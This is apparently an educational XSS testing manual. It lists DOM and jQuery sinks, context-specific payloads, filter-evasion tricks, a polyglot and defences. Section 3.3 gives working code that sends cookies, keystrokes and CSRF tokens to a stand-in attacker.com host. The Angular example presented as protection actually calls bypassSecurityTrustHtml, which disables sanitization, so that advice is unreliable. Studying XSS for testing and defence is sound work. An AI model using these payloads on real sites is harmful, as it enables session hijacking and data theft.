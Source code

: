 Advanced XSS Testing Manual
===========================

# Advanced XSS Testing Manual

## Comprehensive Guide to DOM-Based, Reflected, and Stored XSS

## 1. DOM-Based XSS Deep Dive

### Which Sinks Can Lead to DOM-XSS Vulnerabilities?

The following are some of the main sinks that can lead to **DOM-based XSS** vulnerabilities:

- `document.write()`
- `document.writeln()`
- `document.domain`
- `element.innerHTML`
- `element.outerHTML`
- `element.insertAdjacentHTML`
- `element.onevent` *(e.g., `onclick`, `onerror`, etc.)*

### jQuery Sinks That Can Lead to DOM-XSS:

The following jQuery functions are also **sinks** that can introduce DOM-XSS vulnerabilities:

- `add()`
- `after()`
- `append()`
- `animate()`
- `insertAfter()`
- `insertBefore()`
- `before()`
- `html()`
- `prepend()`
- `replaceAll()`
- `replaceWith()`
- `wrap()`
- `wrapInner()`
- `wrapAll()`
- `has()`
- `constructor()`
- `init()`
- `index()`
- `jQuery.parseHTML()`
- `$.parseHTML()`

### 1.1 Methodology

1.  **Source Identification**
    *   `document.location` (URL fragments)
    *   `window.name`
    *   `document.referrer`
    *   `postMessage` events
    *   Web Storage (localStorage/sessionStorage)
2.  **Sink Analysis**
    
    | Sink Type | Dangerous Methods | Example Payload |
    | --- | --- | --- |
    | HTML Injection | `innerHTML, outerHTML, document.write()` | `\x3Cimg src=x onerror=alert(1)\x3E` |
    | JS Execution | `eval(), setTimeout(), Function()` | `';alert(1);//` |
    | jQuery | `$(), html(), append()` | `\x3Cimg src=x onerror=alert(1)\x3E` |

### 1.2 Advanced Testing Techniques

#### HTML Sink Testing

1. Inject: `window.name = "xss_test_"+Math.random().toString(36).substr(2,8);`
2. Open Chrome DevTools → Elements tab
3. Search DOM (Ctrl+F) for your test string
4. Analyze context:
   - Inside attributes? Try: `" autofocus onfocus=alert(1) x="`
   - Inside HTML? Try: `\x3Csvg onload=alert(1)\x3E`
   - Inside script? Try: `'-alert(1)-'`

#### JavaScript Sink Testing

1. Search all JS files (Ctrl+Shift+F) for:
   - `location.hash`
   - `document.cookie`
   - `window.name`
2. Set breakpoints in suspicious sinks
3. Trace variable flow through execution
4. Test progressive payloads:
   - Basic: `alert(1)`
   - Context-aware: `'-alert(1)-'`
   - Filter evasion: `alert\`1\``

### 1.3 Framework-Specific Vulnerabilities

#### AngularJS XSS

```html
<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>
```

#### jQuery XSS

// Classic hashchange exploit
<iframe src="https://vulnerable.com#" onload="this.src+='<img src=x onerror=alert(1)>'">

### 1.4 Exploiting DOM XSS with Different Sources and Sinks

In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. Different sources and sinks have varying properties that affect exploitability:

#### Common Sink Patterns

| Sink | Exploitability | Example Payload | Lab Reference |
| --- | --- | --- | --- |
| `document.write()` | High - accepts script tags | `document.write('<script>alert(document.domain)</script>')` | DOM XSS using location.search (Solved) |
| `innerHTML` | Medium - requires alternative vectors | `element.innerHTML='<img src=1 onerror=alert(1)>'` | DOM XSS in innerHTML sink (Solved) |
| `location.hash` | Context-dependent | `#<img src=x onerror=alert(1)>` | jQuery hashchange (Solved) |

#### Framework-Specific Sinks

##### jQuery Vulnerabilities

// Attribute manipulation
"$('#backLink').attr("href", location.search);"
// Exploit: "?returnUrl=javascript:alert(document.domain)"

// Selector injection
"$(window).on('hashchange', function() {"
"    $(location.hash).scrollIntoView();"
"});"
// Exploit via iframe:
"<iframe src="https://vulnerable.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">"

##### AngularJS Vulnerabilities

<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>
// Lab: DOM XSS in AngularJS expression (Not solved)

#### Hybrid DOM XSS Patterns

| Type | Description | Example | Lab Status |
| --- | --- | --- | --- |
| Reflected DOM | Server echoes input into JS context | `eval('var data = "'+userInput+'"')` | Reflected DOM XSS (Not solved) |
| Stored DOM | Server stores then serves malicious payload | `element.innerHTML = storedData` | Stored DOM XSS (Not solved) |

#### Complete Sink Reference

##### Native JavaScript Sinks

*   `document.write()`
*   `document.writeln()`
*   `element.innerHTML`
*   `element.outerHTML`
*   `element.insertAdjacentHTML`
*   `element.onevent`

##### jQuery Sinks

*   `add()`
*   `html()`
*   `append()`
*   `prepend()`
*   `jQuery.parseHTML()`
*   `$() (selector)`

#### Prevention Checklist

*   Avoid dynamic HTML writing with untrusted data
*   Use `textContent` instead of `innerHTML`
*   Implement Content Security Policy (CSP)
*   Sanitize inputs in framework contexts (AngularJS, React, etc.)
*   Regularly audit third-party libraries

## 2\. Reflected XSS Mastery

### 2.1 Context-Specific Payloads

| Context | Payload | Bypass Technique |
| --- | --- | --- |
| HTML Text | `<script>alert(1)</script>` | Case variation: <ScRiPt> |
| HTML Attribute | `" onmouseover=alert(1) x="` | New events: onpointerenter |
| JavaScript String | `'-alert(1)-'` | Template literals: \`${alert(1)}\` |
| URL Context | `javascript:alert(1)` | Data URI: data:text/html,<script>alert(1)</script> |

### 2.2 Advanced Filter Evasion

// Chrome XSS Auditor Bypass
<script>
location.href = 'javascript:alert%281%29';
</script>

// UTF-7 Bypass (IE)
+ADw-script+AD4-alert(1)+ADw-/script+AD4-

// JavaScript Obfuscation
eval('al'+'ert(1)');
window\['al'+'ert'\](1);

## 3\. Stored XSS Professional

### 3.1 Entry Point Discovery

*   **User Content**: Comments, profiles, uploads
*   **Metadata**: Filenames, EXIF data
*   **API Responses**: JSON/XML responses
*   **Admin Features**: Logs, moderation queues

### 3.2 Advanced Persistence Techniques

// SVG XSS
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>

// PDF Embedded JS
/Names <</JavaScript <</Names \[(alert(1))\]>>>>

// HTML5 Storage
<script>
localStorage.setItem('xss', '<img src=x onerror=alert(1)>');
location.reload();
</script>

### 3.3 Impact Escalation

// Session Hijacking
document.location='https://attacker.com/?cookie='+document.cookie;

// Keylogger
document.onkeypress = function(e) {
    new Image().src='https://attacker.com/?k='+e.key;
};

// CSRF Token Theft
fetch('/account')
    .then(r => r.text())
    .then(t => {
        let token = t.match(/csrfToken = '(.\*?)'/)\[1\];
        new Image().src='https://attacker.com/?token='+token;
    });

## 4\. XSS Prevention Checklist

### 4.1 Defense Mechanisms

| Technique | Implementation | Effectiveness |
| --- | --- | --- |
| Content Security Policy | `Content-Security-Policy: default-src 'self'` | High (when properly configured) |
| Input Validation | Whitelist allowed characters | Medium (context-dependent) |
| Output Encoding | HTML Entity Encoding: &lt;script&gt; | High (when context-aware) |
| Secure Cookies | `Set-Cookie: HttpOnly; Secure` | Mitigates impact |

### 4.2 Framework Protections

// React (JSX auto-escapes)
<div>{userInput}</div>

// Angular (sanitization)
import { DomSanitizer } from '@angular/platform-browser';
this.safeHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);

// Vue (v-html directive)
<div v-html="sanitizedContent"></div>

## 5\. Professional Testing Tools

### 5.1 Automated Scanning

*   **Burp Suite**: DOM Invader extension
*   **ZAP**: Active scanner with XSS rules
*   **XSStrike**: Advanced detection engine

### 5.2 Manual Testing Utilities

// XSS Polyglot
javascript:/\*--></title></style></textarea></script><xmp><svg/onload='+/"/+/onmouseover=1/+/\[\*/\[\]/+alert(1)//'>

// Cheatsheets
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**Legal Note:** Always obtain proper authorization before testing. This guide is for educational purposes only.

Last updated: 2023-11-15 | Based on OWASP Top 10 2021
